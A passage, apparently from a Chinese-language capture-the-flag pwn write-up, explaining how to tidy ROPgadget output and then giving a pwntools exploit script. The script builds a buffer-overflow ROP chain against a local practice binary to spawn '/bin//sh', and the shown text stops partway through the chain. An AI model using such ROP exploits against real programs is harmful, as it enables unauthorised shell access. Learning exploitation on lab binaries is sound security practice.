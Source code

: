 但是要做一些处理, python首先就是缩进敏感, 复制这些代码, 需要将前面的空格都去掉, 并且pack需要写为完整的`struct.pack` , 同时导入struct包, 整合后的脚本为

##### Exploit

```python
from pwn import*
from struct import pack
o = process("./ropchain")

p = 'a'*0x18
p += struct.pack('<Q', 0x0000000000410053) # pop rsi ; ret
p += struct.pack('<Q', 0x00000000006b90e0) # @ .data
p += struct.pack('<Q', 0x00000000004005af) # pop rax ; ret
p += '/bin//sh'
p += struct.pack('<Q', 0x000000000047f151) # mov qword ptr [rsi], rax ; ret
p += struct.pack('<Q', 0x0000000000410053) # pop rsi ; ret
p += struct.pack('<Q', 0x00000000006b90e8) # @ .data + 8
p += struct.pack('<Q', 0x0000000000443f80) # xor rax, rax ; ret
p += struct.pack('<Q', 0x000000000047f151) # mov qword ptr [rsi], rax ; ret
p += struct.pack('<Q', 0x00000000004006a6) # pop rdi ; ret
p += struct.pack('<Q', 0x00000000006b90e0) # @ .data
p += struct.pack('<Q', 0x0000000000410053) # pop rsi ; ret
p += struct.pack('<Q', 0x00000000006b90e8) # @ .data + 8
